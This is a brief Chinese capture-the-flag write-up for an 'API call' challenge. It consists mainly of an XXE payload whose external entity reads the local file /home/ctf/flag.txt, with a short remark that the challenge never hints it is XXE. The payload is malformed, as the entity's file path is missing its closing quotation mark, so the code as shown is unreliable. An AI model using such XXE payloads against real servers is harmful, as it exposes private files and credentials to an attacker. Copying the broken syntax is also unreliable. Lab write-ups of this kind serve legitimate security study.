 # api调用

哇，你不和我讲我怎么知道是XXE啊。

知道是XXE就是套路题了。

```xml
<!DOCTYPE a [
    <!ENTITY b SYSTEM "file:///home/ctf/flag.txt>
]>
<c>&b;</c>
```
